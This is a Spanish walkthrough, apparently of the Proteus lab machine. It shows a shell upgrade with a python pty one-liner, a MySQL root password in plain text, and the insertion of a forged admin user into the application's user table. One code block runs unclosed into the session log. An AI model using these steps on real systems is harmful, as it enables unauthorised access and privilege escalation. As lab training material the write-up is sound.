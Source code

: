 Iniciamos sesión en *MySQL* y miramos la información que hay:

![Usuarios de la Aplicación en MySQL]({{ site.url }}/assets/proteus_mysql_app_users.png "Usuarios en MySQL")

El único usuario que existe es *malwareadm* y el campo **password** tiene como contenido *dba10459f1a4c8b25507aee1ab823a26de92fb44*. La longitud de 40 caracteres da que pensar que se trata de un HASH SHA-1. Seguramente se encuentra *salted* con el *SECRET* indicado en el archivo anterior.

Para saber exactamente cómo es, hago una búsqueda en */home/malwareadm/sites/proteus/site/web* en la que aparezca SHA1:

```
$ grep -r -n -i "sha1" .

...
./lib/bootstrap.php:82:    return sha1(md5(Conf::SECRET . $var));
```

Sin embargo, creo que esta parte del código que sirve para verificar el usuario no se utiliza... Si pruebo la contraseña obtenida de *malwareadm* y el *SECRET* para obtener el HASH combinado de SHA1 con MD5, el resultado no coincide:


```bash
$ set +H
$ echo -n "thisisthesecretq-L@X!{l_'8|)o?Q+TapahQ<_" | md5sum | sha1sum
7683b6cf01db7c771459d42f2e454b3195b72ddb  -
```

De hecho, si creo un nuevo usuario llamado *hola* con contraseña *hola*

```
$ echo -n thisisthesecrethola|md5sum|sha1sum
dd343a63295187ef43b7c91e86c00c16e2daf3aa  -

python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Proteus:/home/malwareadm/sites/proteus_site$ mysql -u root -p
Enter password: viWJ.cgdf&3a]d3xh;C/c]&c?

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 184
Server version: 5.7.18-0ubuntu0.16.10.1 (Ubuntu)

Copyright (c) 2000, 2017, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> insert into proteus_db.tbl_user values( 2, 'hola', 'dd343a63295187ef43b7c91e86c00c16e2daf3aa', 1) ;


mysql> select * from proteus_db.tbl_user ;
+----+------------+------------------------------------------+-------+
| id | name       | password                                 | admin |
+----+------------+------------------------------------------+-------+
|  1 | malwareadm | dba10459f1a4c8b25507aee1ab823a26de92fb44 |     1 |
|  2 | hola       | dd343a63295187ef43b7c91e86c00c16e2daf3aa |     1 |
+----+------------+------------------------------------------+-------+
2 rows in set (0.00 sec)
```
